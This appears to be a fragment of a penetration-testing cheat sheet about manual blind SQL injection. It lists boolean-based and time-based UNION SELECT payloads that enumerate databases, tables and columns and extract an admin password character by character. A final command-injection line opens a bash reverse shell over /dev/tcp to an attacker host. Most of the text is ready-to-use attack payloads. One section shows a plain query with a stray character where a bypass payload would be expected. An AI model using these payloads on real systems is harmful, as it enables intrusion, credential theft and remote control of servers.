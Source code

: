 ### Manual Blind Authentication Bypass SQL Injection

> https://<RHOST>/article?id=3

```console
0 SELECT * FROM users WHERE username='%username%' AND password='%password%' LIMIT 1;
```

### Manual BooleanBased Blind SQL Injection

> https://<RHOST>/checkuser?username=admin

```console
admin123' UNION SELECT 1;--    # value is false
admin123' UNION SELECT 1,2;--    # value is false
admin123' UNION SELECT 1,2,3;--    # value changed to true
admin123' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
admin123' UNION SELECT 1,2,3 WHERE database() LIKE 's%';--    # database name starts with "s"
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = '<DATABASE>' AND table_name='users';--    # enumerating tables
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE table_schema='<DATABASE>' AND table_name='users' AND column_name LIKE 'a%';    # enumerating columns
admin123' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'a%    # query for a username which starts with "a"
admin123' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'ad%
admin123' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'adm%
admin123' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'admi%
admin123' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'admin%
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username='admin' AND password LIKE '1%';--
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username='admin' AND password LIKE '12%';--
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username='admin' AND password LIKE '123%';--
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username='admin' AND password LIKE '1234%';--
```

### Manual Time-Based Blind SQL Injection

> https://<RHOST>/analytics?referrer=<RHOST>

```console
admin123' UNION SELECT SLEEP(5);--
admin123' UNION SELECT SLEEP(5),2;--    # the query created a 5 second delay which indicates that it was successful
admin123' UNION SELECT SLEEP(5),2 WHERE database() LIKE 'u%';--
admin123' UNION SELECT SLEEP(5),2 WHERE table_schema='users' and column_name LIKE 'a%';--
admin123' UNION SELECT SLEEP(5),2 WHERE table_schema='users' and column_name LIKE 'ad%';--
admin123' UNION SELECT SLEEP(5),2 WHERE table_schema='users' and column_name LIKE 'adm%';--
admin123' UNION SELECT SLEEP(5),2 WHERE table_schema='users' and column_name LIKE 'admi%';--
admin123' UNION SELECT SLEEP(5),2 WHERE table_schema='users' and column_name LIKE 'admin%';--
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username='admin' AND password LIKE 'a%';--
```

### SQL Command Injection

```console
$ ls -l&host=/var/www
$ command=bash+-c+'bash+-i+>%26+/dev/tcp/<LHOST>/<LPORT>+0>%261'%26host=
```
